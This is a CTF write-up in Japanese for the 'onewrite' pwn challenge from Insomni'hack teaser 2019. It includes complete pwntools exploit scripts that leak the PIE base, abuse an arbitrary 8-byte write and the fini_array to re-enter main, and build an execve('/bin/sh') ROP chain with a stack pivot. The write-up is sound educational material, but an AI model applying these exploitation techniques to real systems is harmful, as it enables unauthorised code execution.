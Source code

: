 # [pwn 87pts] onewrite - Insomni'hack teaser 2019
64ビットバイナリですが、色々と有効になっています。
```
$ checksec onewrite
[!] Did not find any GOT entries
[*] "/home/ptr/writeups/2019/Insomni'hack_teaser_2019/onewrite/onewrite"
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
fileコマンドではdynamically linkedとなっていますが、static linkのようです。

`do_leak`関数はrspの値か`do_leak`関数のアドレスを出力してくれます。
その後`do_overwrite`関数が呼び出され、任意のアドレスに8バイト書き込むことができます。

とりあえず終了時に呼び出される関数があるはずなので、`__libc_csu_fini`を見ましょう。
`__libc_csu_fini`は`__libc_start_main`に`main`関数のアドレスなどと一緒に渡される関数で、次のように定義されています。
```c
void __libc_csu_fini(void)
{
#ifndef LIBC_NONSHARED
  size_t i = __fini_array_end - __fini_array_start;
  while (i-- > 0)
    (*__fini_array_start [i]) ();
# ifndef NO_INITFINI
  _fini ();
# endif
#endif
}
```
IDAで見ると`__fini_array_start`は`__do_global_dtors_aux_fini_array_entry`という名前になっています。
```nasm
lea     rbp, __do_global_dtors_aux_fini_array_entry
...
call    qword ptr [rbp+rbx*8+0]
```
したがって、ここの値を書き換えれば、終了時に任意アドレスが呼び出せそうです。

とりあえずジャンプできることを確認します。
```python
from pwn import *

elf = ELF("./onewrite")
sock = process("./onewrite")

# Overwrite: *fini_array_start = 0xffffffffffffffff
sock.recvuntil(" > ")
sock.sendline("2")
addr = sock.recvline()
addr_do_leak = int(addr, 16)
pie_base = addr_do_leak - elf.symbols['do_leak']
addr_fini_array_start = pie_base + elf.symbols['__do_global_dtors_aux_fini_array_entry']
print("[+] fini_array_start = " + hex(addr_fini_array_start))
sock.recvuntil("address : ")
sock.send(str(addr_fini_array_start))
sock.recvuntil("data : ")
sock.send(p64(0xffffffffffffffff))

sock.interactive()
```
dmesgを見ると、ちゃんと書き込んだアドレスへジャンプされていることが確認できます。
```
[ 4618.182851] onewrite[9515]: segfault at ffffffffffffffff ip ffffffffffffffff sp 00007ffcc6d6afa8 error 15
```
これを使って何度でも`do_overwrite`関数が呼び出せると思ったのですが、一度呼び出すとretで`__libc_csu_fini`へ戻ってしまいます。

do_leak内でのスタックの状態は次のようになっています。
```
0000| 0x7fffffffda80 --> 0x7ffff7d53780 (<__libc_csu_init>:     push   r15)
0008| 0x7fffffffda88 --> 0x7ffff7d52a15 (<do_leak>:     sub    rsp,0x18)
0016| 0x7fffffffda90 --> 0x0 
0024| 0x7fffffffda98 --> 0x7ffff7d52b09 (<main+81>:     nop)
0032| 0x7fffffffdaa0 --> 0x7ffff7d52060 (<_init>:       sub    rsp,0x8)
0040| 0x7fffffffdaa8 --> 0x7ffff7d53089 (<__libc_start_main+777>:       mov    edi,eax)
0048| 0x7fffffffdab0 --> 0x0 
0056| 0x7fffffffdab8 --> 0x100000000 
```
ここで`__libc_start_main`へ戻る`main`関数のリターンアドレスを`main`に書き換えます。
すると、`main`関数終了時にもう一度`main`が呼び出されるわけですが、次に呼び出される`do_leak`内のスタックの状態は次のようになっています。
```
0000| 0x7fffffffda88 --> 0x7ffff7d53780 (<__libc_csu_init>:     push   r15)
0008| 0x7fffffffda90 --> 0x7ffff7d53810 (<__libc_csu_fini>:     push   rbp)
0016| 0x7fffffffda98 --> 0x0 
0024| 0x7fffffffdaa0 --> 0x7ffff7d52b09 (<main+81>:     nop)
0032| 0x7fffffffdaa8 --> 0x7ffff7d52ab8 (<main>:        sub    rsp,0x8)
0040| 0x7fffffffdab0 --> 0xa30 ('0\n')
0048| 0x7fffffffdab8 --> 0x100000000 
0056| 0x7fffffffdac0 --> 0x7fffffffdbc8 --> 0x7fffffffdf6c ("/home/ptr/writeups/2019/Insomni'hack_teaser_2019/onewrite/onewrite")
```
最初に書き換えた`main`のリターンアドレスはそのままで、その次に`do_leak`のリターンアドレスがあります。
したがって、次に`do_leak`のリターンアドレスを`main`にしてやれば、この後2回`main`が呼び出されます。
1回目の`main`で自由なアドレスに値を書き込み、2回目の`main`で再びスタックを書き換えれば何度でも書き込みができます。

これに気付けばあとは簡単です。
bssセクションにROPを組み立てて、最後にstack pivotでrspをそこへ移してやればROPが発動します。
今回はstatic linkなのでROP Gadgetは十分に見付かります。

```python
from pwn import *

elf = ELF("./onewrite")
sock = process("./onewrite")

rop_pop_rax = 0x000460ac
rop_pop_rdi = 0x000084fa
rop_pop_rsi = 0x0000d9f2
rop_pop_rdx = 0x000484c5
rop_pop_rsp = 0x0000946a
rop_syscall = 0x0006e605

def leak(choice):
    # 1: rsp / 2: do_leak
    sock.recvuntil(" > ")
    sock.sendline(str(choice))
    addr = int(sock.recvline(), 16)
    return addr

def overwrite_once(addr, data):
    sock.recvuntil("address : ")
    sock.send(str(addr))
    sock.recvuntil("data : ")
    sock.send(p64(data))
    return 

def overwrite(addr, data):
    # ret addr of main --> main
    rsp = leak(1)
    overwrite_once(rsp + 0x28, addr_main)
    # ret addr of do_leak --> main
    rsp = leak(1)
    overwrite_once(rsp + 0x18, addr_main)
    # can overwrite an arbitrary address
    rsp = leak(1)
    overwrite_once(addr, data)
    # now we are in `main`
    return

# Leak PIE base
addr_do_leak = leak(2)
pie_base = addr_do_leak - elf.symbols['do_leak']
addr_main = pie_base + elf.symbols['main']
addr_fini_array_start = pie_base + elf.symbols['__do_global_dtors_aux_fini_array_entry']
addr_bss = pie_base + elf.bss()
print("[+] pie base = " + hex(pie_base))
print("[+] <main> = " + hex(addr_main))
print("[+] __bss_start = " + hex(addr_bss))
print("[+] fini_array_start = " + hex(addr_fini_array_start))
rop_chain = [
    pie_base + rop_pop_rax, 59, # sys_execve
    pie_base + rop_pop_rdi, addr_bss, # filename
    pie_base + rop_pop_rsi, 0, # argv
    pie_base + rop_pop_rdx, 0, # envp
    pie_base + rop_syscall
]

# Overwrite: *fini_array_start = main
overwrite_once(addr_fini_array_start, addr_main)

# Write '/bin/sh' to .bss section
overwrite(addr_bss, u64("/bin/sh\x00"))
overwrite(addr_bss + 8, u64("\x00" * 8))

# Write ROP chain
for (i, rop) in enumerate(rop_chain):
    overwrite(addr_bss + 8 * (i + 2), rop)

# Stack pivot
rsp1 = leak(1)
overwrite_once(rsp1 + 0x28, addr_main)
rsp2 = leak(1)
overwrite_once(rsp2 + 0x18, addr_main)
rsp3 = leak(1)
overwrite_once(rsp1 + 0x38, addr_bss + 16)
rsp4 = leak(1)
print(hex(rsp1 + 0x38))
print(hex(rsp4 + 0x28))
overwrite_once(rsp4 + 0x28, pie_base + rop_pop_rsp)

sock.interactive()
```

# 感想
`main`と`do_leak`のリターンアドレスを`main`にして2回連続`do_overwrite`するというのはちょっと思い付かないかなー。
全部知っている範囲なのでこの手の問題はさくっと解けるようになっておきたいです。
あと`__libc_csu_fini`を使わないやり方もあります。（参考文献[2]）

# 参考文献
[1] [[Insomni'hack 2019] onewrite writeup](https://go-madhat.github.io/onewrite-writeup/)

[2] [Insomni'hack Teaser 2019-onewrite详细解析](https://www.anquanke.com/post/id/169912)